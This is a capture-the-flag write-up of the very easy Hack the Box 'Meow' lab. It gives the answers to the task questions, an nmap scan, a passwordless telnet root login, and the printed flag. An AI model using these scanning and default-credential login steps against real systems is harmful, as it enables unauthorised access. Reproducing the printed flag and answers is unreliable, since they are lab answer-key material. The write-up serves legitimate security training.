 # Meow
* Source: [Hack the Box](https://hackthebox.com/)
* Challenge: Meow
* Topic: [[Telnet]]
* Difficulty: Very easy
* Date: 12-04-2022
* Author: [DjikstraCS](https://github.com/DjikstraCS)

---
## Tasks
1. What does the acronym VM stand for? 
 - **virtual machine**
2. What tool do we use to interact with the operating system in order to start our VPN connection? 
- **terminal**
3. What service do we use to form our VPN connection? 
- **openvpn**
4. What is the abbreviated name for a tunnel interface in the output of your VPN boot-up sequence output? 
- **tun**
5. What tool do we use to test our connection to the target? 
- **ping**
6. What is the name of the tool we use to scan the target's ports? 
- **nmap**
7.  What service do we identify on port 23/tcp during our scans?
- **telnet**
8. What username ultimately works with the remote management login prompt for the target? 
- **root**

---
## Flag:
First, we need to scan the target with `nmap`.

Command:

`nmap -n -sC -sV 10.129.80.87`

`-n`: No DNS look up (Good [OPSEC](https://en.wikipedia.org/wiki/Operations_security)).

`-sC`: Run scripts during scan.

`-sV`: Try to detect the version of running services.

```console
┌──(kali㉿kali)-[~]
└─$ nmap -n -sC -sV 10.129.80.87                  
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-15 13:17 EDT
Nmap scan report for 10.129.80.87
Host is up (0.070s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
23/tcp open  telnet  Linux telnetd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The machine is running telnet on port 23.

Telnet: `telnet 10.129.80.87`

```console
┌──(kali㉿kali)-[~/Downloads]
└─$ telnet 10.129.80.87
Trying 10.129.80.87...
Connected to 10.129.80.87.
Escape character is '^]'.

  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█


Meow login: root
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue 12 Apr 2022 02:05:01 PM UTC

  System load:           0.01
  Usage of /:            41.7% of 7.75GB
  Memory usage:          4%
  Swap usage:            0%
  Processes:             146
  Users logged in:       0
  IPv4 address for eth0: 10.129.80.87
  IPv6 address for eth0: dead:beef::250:56ff:fe96:9028

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

75 updates can be applied immediately.
31 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Sep  6 15:15:23 UTC 2021 from 10.10.14.18 on pts/0
```

We are connected! To see what files are in the current directory we can use `ls`.

```
root@Meow:~# ls
flag.txt  snap
```

And to see what a file contains we can use `cat`.

```
root@Meow:~# cat flag.txt 
b40abdfe23665f766f9c61ecba8a4c19
```

**Flag:** `b40abdfe23665f766f9c61ecba8a4c19`

---
**Tags:** [[HackTheBox]]